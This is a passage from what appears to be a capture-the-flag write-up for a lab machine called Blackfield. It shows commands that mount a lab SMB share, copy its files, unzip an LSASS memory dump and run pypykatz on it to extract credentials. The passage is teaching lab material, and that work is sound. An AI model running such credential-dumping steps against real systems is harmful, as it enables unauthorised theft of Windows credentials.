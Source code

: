 ```
sudo mount.cifs //10.10.10.192/forensic -o username=audit2020 /mnt/temp/
```

```
rsync -r --progress /mnt/temp/* .
```

Inside of the folder forensic/memory_analysis i found the following files:

![](Pictures/Blackfield/content1.png)

There is one file that look more interesting then the others, lsass.zip, so I unzipped it.

```
7z x lsass.zip
```

### [](#header-3)Pypykatz lsass.dmp

I used pypykatz to try to get something useful out of it.


```
Pypykatz lsa minidump lsass.DMP
```

![](Pictures/Blackfield/lsass1.png)
